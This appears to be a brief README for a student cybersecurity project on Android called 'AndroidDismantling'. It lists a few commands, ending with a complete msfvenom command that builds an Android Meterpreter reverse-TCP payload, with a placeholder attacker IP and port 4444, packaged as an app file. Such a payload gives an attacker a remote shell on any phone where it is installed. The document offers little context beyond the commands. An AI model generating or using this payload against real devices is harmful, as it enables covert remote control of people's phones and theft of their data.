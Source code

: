 # AndroidDismantling
Short project on Cybersec around Android


ifconfig - for ip info
msfvenom -help - info how to use msfvenom
msfvenom -p android/meterpreter/reverse_tcp LHOST=IP.ADDRES LPORT=4444 R > Foldername/androidApp.ak
